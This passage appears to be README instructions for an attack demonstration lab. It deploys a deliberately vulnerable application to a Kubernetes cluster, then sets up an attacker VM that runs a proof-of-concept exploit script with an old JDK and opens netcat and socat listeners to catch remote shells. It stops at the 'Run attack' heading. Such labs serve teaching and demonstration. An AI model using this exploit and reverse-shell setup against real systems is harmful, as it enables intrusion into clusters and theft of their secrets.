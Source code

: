 Create a Secret with a DigitalOceanApi key

```
apiVersion: v1
kind: Secret
metadata:
  name: digitalocean
  namespace: kube-system
stringData:
  access-token: "..."
```

Deploy the sample application

```
kubectl apply -f vulnerable-application/deploy/
```

### Attacker VM

Create a VM that is reachable from the vulnerable cluster. All incoming ports should be open. This expects openSUSE as an OS. 

Copy exploiting app to the VM

Download jdk-8u20-linux-x64 from https://www.oracle.com/de/java/technologies/javase/javase8-archive-downloads.html

```
scp ~/Downloads/jdk-8u20-linux-x64.tar.gz ec2-user@<IP>:~/
scp -r exploiting-app/* ec2-user@<IP>:~/
```

On the VM, install the requirements

```
zypper in -y python3 socat

pip3 install -r requirements.txt

tar -xvf jdk-8u20-linux-x64.tar.gz
```

Run exploiting app

```
sudo python3 poc.py --userip <IP> --webport 80 --lport 443 &
```

Run necessary netcat and socat processes for remote shells

```
sudo nc -lvnp 443
```

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```


## Run attack
